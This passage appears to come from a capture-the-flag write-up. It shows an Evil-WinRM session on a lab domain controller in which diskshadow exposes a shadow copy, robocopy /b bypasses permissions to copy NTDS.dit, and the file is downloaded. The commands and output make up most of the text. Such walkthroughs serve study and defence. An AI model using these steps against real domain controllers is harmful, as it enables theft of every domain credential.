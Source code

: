 Using diskshadow we run the script and we end with a shadow drive Z:

```
*Evil-WinRM* PS C:\temp> diskshadow /s pwn.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/1/2020 1:30:41 AM

-> set context persistent nowriters
-> add volume c: alias pwn
-> create
Alias pwn for shadow ID {4aa7fb85-c839-4e4e-98e9-a949bfb83735} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {bf423ef5-badb-4ae0-aa45-53ae68e595f7} set as environment variable.

Querying all shadow copies with the shadow copy set ID {bf423ef5-badb-4ae0-aa45-53ae68e595f7}

	* Shadow copy ID = {4aa7fb85-c839-4e4e-98e9-a949bfb83735}		%pwn%
		- Shadow copy set: {bf423ef5-badb-4ae0-aa45-53ae68e595f7}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 9/1/2020 1:30:44 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %pwn% z:
-> %pwn% = {4aa7fb85-c839-4e4e-98e9-a949bfb83735}
The shadow copy was successfully exposed as z:\.
->
```

We'll use robocopy with the /b flag to ignore file permissions and copy the NTDS.dit file from the exposed disk shadow.

```
Evil-WinRM* PS C:\temp> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, September 11, 2020 5:43:33 PM
   Source : z:\windows\ntds\
     Dest : C:\temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

	                   1	z:\windows\ntds\
	    New File  		  18.0 m	ntds.dit
	    
*Evil-WinRM* PS C:\temp> download ntds.dit
Info: Downloading C:\temp\ntds.dit to ntds.dit
```
